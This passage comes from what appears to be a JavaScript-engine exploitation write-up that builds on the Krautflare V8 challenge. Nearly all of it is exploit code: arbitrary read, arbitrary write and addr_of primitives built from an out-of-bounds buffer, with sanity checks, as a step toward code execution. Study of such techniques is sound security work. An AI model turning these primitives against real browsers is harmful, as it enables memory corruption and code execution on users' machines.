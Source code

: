 With these primitives, it's possible to gain code execution. All of these
primitives are implemented just like in the Krautflare blog post. Following is
the new code we need to add to our script to set up these primitives:

```js
// offset from oob_buffer to oob_buffer_packed
const RW_OFFSET = 38;
// offset from oob_buffer to oob_buffer_unpacked
const ADDR_OFFSET = 18;
const BACKING_POINTER_OFFSET = 15n;
// used to sanity-check arbitrary rw
const leaked_addr_backing = oob_buffer[RW_OFFSET].f2i() + BACKING_POINTER_OFFSET;

// Expects addr as bigint
function arb_read(addr) {
	let old = oob_buffer[RW_OFFSET];
	oob_buffer[RW_OFFSET] = (addr - BACKING_POINTER_OFFSET).i2f();
	r = oob_buffer_packed[0].f2i();
	oob_buffer[RW_OFFSET] = old;
	return r;
}

if (arb_read(leaked_addr_backing + 16n).i2f() != 3.3) {
	console.log(arb_read(leaked_addr_backing + 16n).i2f());
	throw "[-] arb_read failed sanity check";
}
console.log("[+] defined arb_read");

/* Expects addr and val as bigint */
function arb_write(addr, val) {
	let old = oob_buffer[RW_OFFSET];
	oob_buffer[RW_OFFSET] = (addr - BACKING_POINTER_OFFSET).i2f();
	oob_buffer_packed[0] = val.i2f();
	oob_buffer[RW_OFFSET] = old;
}

arb_write(leaked_addr_backing + 8n, (13.37).f2i());
if (oob_buffer_packed[1] != 13.37) {
	throw "[-] arb_write failed sanity check";
}
console.log("[+] defined arb_write");

// Expects an object as argument
// returns the address of the object
function addr_of(o) {
	let old = oob_buffer_unpacked[0];
	oob_buffer_unpacked[0] = o;
	let r = oob_buffer[ADDR_OFFSET].f2i();
	oob_buffer_unpacked[0] = old;
	return r;
}

(function (){
 let t1 = {};
 let t2 = {};
 let a1 = addr_of(t1) & (~0xffffn);
 let a2 = addr_of(t2) & (~0xffffn);
 let a3 = leaked_addr_backing & (~0xffffn);
 if (a1 != a2 || a1 != a3) {
 throw "[FAIL] addr_of failed sanity check"
 }
 })();
console.log("[+] defined addr_of");
```
